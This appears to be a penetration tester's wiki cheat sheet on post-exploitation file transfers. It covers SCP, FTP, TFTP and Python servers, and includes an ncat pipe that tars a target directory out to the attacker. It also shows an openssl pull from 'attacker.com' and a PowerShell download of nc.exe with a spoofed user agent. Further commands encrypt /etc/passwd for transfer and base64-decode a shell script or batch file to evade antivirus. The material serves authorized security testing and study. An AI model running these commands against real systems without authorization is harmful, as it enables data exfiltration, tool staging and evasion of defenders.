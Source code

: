 # File Transfers

Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint file systems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Administrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells-Listing]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] or [[Linux-File-Transfers]] follow the link the remainder of this article will include hosting methods

Sometime you do not have `curl` and `wget` or want to use either. 

#### SCP

```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


#### PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

#### Python

Unencrypted File transfer
```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

Encrypted File transfer 
```bash
# Create SSL certificate
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
Run a python HTTPS server
```python
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```


#### TFTP Upload Server for Data Exfiltration

Install, contain with a directory  and run a TFTP server.
```bash
apt install atftp
mkdir /tftp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


#### `ncat` or `nc`

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

#### Openssl

Openssl is widely used for certificate and key handling
```bash
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```
[From GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)

## Evasion

#### Mutable Metadata

Listing all User Agent available on Windows
```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
Using a specified User Agent with `IWR`
```powershell
Invoke-WebRequest http://$hostIp/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

#### Encryption in transit

Encrypt on Windows and transfer the result with some method of your choosing
```powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```

Encrypt and Decrypt on Linux and transfer the result of the encryption with some method of your choosing
```bash
# encrypt
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
# decrypt
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```

#### Encoding in transit and decoding onto disk or RAM

`base64` encoding on Linux and Windows:
```bash
# Reduce width to 0
base64 $file -w 0
```
Decode to somewhere on Linux:
```bash
# Linux 
echo $base64encodedFileAsString | base64 -d > /dev/shm/shell.sh
```
Decode to somewhere on Windows:
```powershell
# Windows
echo $base64encodedFileAsString > C:\programdata\$file.b64
certutil -decode C:\programdata\$file.b64 C:\programdata\$intendedfilename.bat
```

#### LOLBAS/GTFOBins

[[Windows-Living-Off-The-Land]] file transfers are awesome!
## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)
[GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)
[csbygb.gitbook.io/pentips File Transfers](https://csbygb.gitbook.io/pentips/post-exploitation/file-transfers) 